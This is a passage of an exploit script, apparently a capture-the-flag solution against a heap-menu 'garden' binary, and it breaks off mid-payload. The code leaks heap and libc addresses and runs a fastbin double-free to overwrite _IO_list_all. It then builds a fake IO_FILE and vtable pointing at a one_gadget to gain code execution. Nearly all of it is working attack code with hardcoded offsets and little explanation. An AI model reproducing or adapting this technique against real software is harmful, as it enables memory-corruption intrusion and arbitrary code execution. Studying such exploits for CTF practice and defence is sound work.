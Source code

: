     delFlower(4) 

    # free E
    cleanGarden(2)

    # reallocs   
    addFlower(0x80,"X"*23,"ZZZZZZZ\n") # flower->ptrName chunk alloc'd over old F chunk
    addFlower(0x80,"X"*23,"ZZZZZZZ\n") # flower->ptrName chunk alloc'd over old J chunk

    leak = printGarden()
    heap_base = u64((leak[:6]).ljust(8,'\0'))-0x1220
    libc_base = leak.split("ZZZZZZZ\n")[1]
    libc_base = u64(((leak.split("ZZZZZZZ\n")[1])[:6]).ljust(8,'\0'))-0x3c3b78
    one_gadget = libc_base+0xf0567
    
    log.success("heap base found at: "+hex(heap_base))
    log.success("libc base found at: "+hex(libc_base))
    log.success('"magic" gadget found at: '+hex(one_gadget))
    
    ## STAGE 2: FASTBIN ATTACK TO GET MALLOC() TO OVERWRITE _IO_LIST_ALL ##
    # 2.1) setup fastbin for exploit
    log.info("starting stage 2 fastbin attack...")
    addFlower(0x68,"A"*23,"B"*28) # A, B
    addFlower(0x68,"C"*23,"D"*28) # C, D
    addFlower(0x68,"E"*23,"F"*28) # E, F
    
    delFlower(8)
    delFlower(7)
    delFlower(6)
    delFlower(7)
    delFlower(8)
    # fastbin now: [HEAD]->F->D->B->D->F->NULL
    
    # 2.2) set D->FD to _IO_list_all-0x30+0xd
    target = libc_base+0x3c44fd         #_IO_list_all 00000000003c4520
    addFlower(0x68,"G"*23,"H"*0x10)     # G, H
    addFlower(0x68,"I"*23, p64(target)) # I, J: D->FD = _IO_list_all-0x30+0xd
    # fastbin now: [HEAD]->B->D->target

    # 2.3) craft our fake vtable + pop B off fastbin
    addFlower(0x68,"K"*23, p64(one_gadget)) # K, L: just to place one_gadget in a predictable heap addr
    fake_vtable = heap_base+0x1338          #       so that [fake_vtable+0x18] = one_gadget
    log.success("target fake vtable at: "+hex(fake_vtable))

    addFlower(0x68,"M"*23,"N"*0x68) # filler allocations to pop D off fastbin 
    # fastbin now: [HEAD]->target

    # 2.4) before we overwrite _IO_list_all, let's craft fake IO_FILE object in a non-fastbin sized heap chunk
    payload  = "\xff"*0x20
    payload += p64(0x0)                   # [io_file+0x20] < [io_file+0x28]
    payload += "\xff"*(0xd8-0x20-0x8)     
